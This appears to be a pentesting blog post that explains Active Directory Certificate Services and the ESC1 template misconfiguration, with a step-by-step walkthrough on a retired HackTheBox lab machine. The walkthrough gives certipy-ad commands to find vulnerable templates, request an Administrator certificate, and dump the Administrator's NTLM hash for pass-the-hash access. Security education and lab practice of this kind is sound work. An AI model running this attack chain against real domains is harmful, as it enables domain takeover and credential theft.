 ```yaml
---
title: Abusing Active Directory Certificate Services
published: 2025-06-21
description: 'Learn about the significance active directory certificates in pentesting, abusing ADCS and ESC1 attack.'
image: ''
tags: ['adcs', 'ESC1']
category: 'active-directory'
draft: false
---
```

## What is Active Directory Certificate Services (ADCS) ?

Active Directory Certificate Services (AD CS) is a Windows Server role responsible for issuing, managing and validating digital certificates within a public key infrastructure (PKI). Active Directory Certificate Services provides a secure and scalable platform for managing digital identities, ensuring the confidentiality, integrity and availability of information within an organization.


### Main components of Active Directory Certificate Services:

- **Certificate Authority (CA):** Issues and manages digital certificates.

- **Certificate Templates:** Define the properties and usage of certificates.

- **Certificate Authority Web Enrollment:** Allows users and computers to request certificates through a web-based interface.

- **Public Key Infrastructure:** PKI manages certificates and public key encryption.

- **Certificate Signing Request:** CSR is a message send to CA to request a signed certificate

- **Extended Key Usage:** Extended Key Usage are object indentifiers that define how a generated certificate may be used.

## Certificate Templates

Since Active Directory Certificate Services is such a critical service, it usually runs on only a few selected domain controllers, normal users can't interact with the AD CS directly. Some organizations that are too large have administrator's that create and distribute each certificate manually, distributing certificates manually to each user is not feasible in larger organizations. This is where certificate templates come into action, AD CS administrators can create several templates that can allow users with the relevant permission to request a certificate themselves. These certificate templates have specific parameters that define which user can request the certificate and what permissions are required.

![CSR](./images/adcs-abuse/csr-1.png)
Credit: SpecterOps

## What vulnerabilities can arise with Certificate Templates ?

This vulnerability was researched and discovered by [SpecterOps](https://specterops.io/) and later disclosed in their [whitepaper](https://specterops.io/wp-content/uploads/sites/3/2022/06/Certified_Pre-Owned.pdf) in 2021. This whitepaper highlights how specific combination of parameters in certificate templates can be abused and lead to privilege escalation to domain administrator and persistent access for years.

## Format of a Certificate Template

A certificate template consists of various parameters, a misconfigured combination of these parameters leads to vulnerabilities in certificate templates. Some of the well known vulnerabilities in certificate templates are: ESC1, ESC4, ESC7, ESC9, ESC15 and so on.

Here is what a certificate vulnerable to ESC1 looks like:

![ESC1 Vulnerable Certificate](./images/adcs-abuse/esc1.png)

The template is vulnerable to ESC1 because it has: Enrollee supplies subject and template allows client authentication parameters enabled. 
Other ESC(2-16) vulnerabilities have different combination of parameters in templates that make them vulnerable.

## Exploiting AD CS Templates

For this blog, i will be using a retired machine from HackTheBox: [Escape](https://app.hackthebox.com/machines/531)

The first step to determining vulnerable templates, is using our credentials to collect data for bloodhound and figuring out whether our compromised user account has access to the ADCS or not.

![bloodhound](./images/adcs-abuse/bloohound.png)

Here in bloodhound we can see that our compromised user *Ryan Cooper* is part of the **CERTIFICATE SERVICE DCOM ACCESS** group. Which seems to be the ADCS group.

This can also be identified in powershell by running:

```
whoami /all
```

![group membership](./images/adcs-abuse/priv1.png)

Now that we know that our user is potentially part of the ADCS group, we can use [certipy-ad](https://github.com/ly4k/Certipy) - a very powerful tool for attacking and enumerating AD CS. It supports identification and exploitation of ESC1-ESC16 vulnerabilities.

Certipy-ad can be installed on kali linux using apt: `sudo apt-get install certipy-ad`

> Note: certipy-ad goes to various updated often, so the commands and switches/flags I am using in this blog works as of 21-06-2025, it may or may not work in future. So please reference the official documentation for certipy-ad on their github repository.

1. **Identifying vulnerable templates:**

We can use certipy-ad to identify vulnerable templates using the credential for the user we have access to, certipy-ad accepts both password and ntlm hash for authentication.

```
certipy-ad find -u "ryan.cooper@sequel.htb" -p "NuclearMosquito3" -dc-ip 10.10.11.202 -vulnerable -enabled -stdout
```

Flags:
- **find**: certipy-ad option for enabling certificate enumeration
- **-u**: username
- **-p**: password
- **-dc-ip**: domain controller ip
- **-vulnerable**: find vulnerable templates on the dc
- **-enabled**: search for enabled/working templates only
- **-stdout**: standard output, output the result of terminal instead to writing them to files which certipy-ad does by default (it creates a mess).

We get the result and one of the templates is vulnerable to ESC1 because it has 2 particular parameters: *Enrollee supplies subject* and template allows *client authentication*

![vuln template](./images/adcs-abuse/vuln_template.png)

2. **Requesting Administrator's certificate:**

Now that we know the target template and its details, we can abuse it to issue administrator user's certificate and get access to target system as admin. This is also done using certipy-ad

```
certipy-ad req -u 'ryan.cooper@sequel.htb' \
-p 'NuclearMosquito3' \
-dc-ip 10.10.11.202 \
-target 'sequel.htb' \
-ca 'sequel-DC-CA' -template 'UserAuthentication' \
-upn 'Administrator@sequel.htb'
```

Flag:
Other than the flags i discussed above here is what the other flags are for,
- **req**: certipy-ad option requesting certificate
- **-target**: specify target domain
- **-ca**: Name of the certificate authority, can be found on the result of vulnerable template enumeration we did previously
- **-upn**: User Principal Name of target user, i.e. Administrator

This will request a certificate for administrator user from the AD CS and save it as a **.pfx** (personal information exchange file) file on our system.
![admin certificate dumped](./images/adcs-abuse/admin_cert.png)

3. **Dumping Administrator's NTLM hash using the PFX file:**

Now we can use certipy-ad to use the administrator.pfx file and dump the ntlm hash for administrator user:

```
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.202
```

Flags:
- **auth**: certipy-ad option for authentication
- **-pfx**: specifying the pfx file to use

And we get the administrator ntlm hash that we can use with psexec, evil-winrm, etc to authenticate and access the target system as administrator.

![admin hash](./images/adcs-abuse/admin_hash.png)

## Conclusion
In this blog we discussed about Active Directory Certificate Services, its components, working of certificate templates SpecterOps discovery and research of certificate template abuse. Then we discussed template vulnerabilities (ESC), how we identify esc1 vulnerability using certipy-ad, how to request administrator's certificate using certipy-ad and then dumping the NTLM hash of the administrator, which can then be used for authentication via various protocols like winrm, smb, etc.
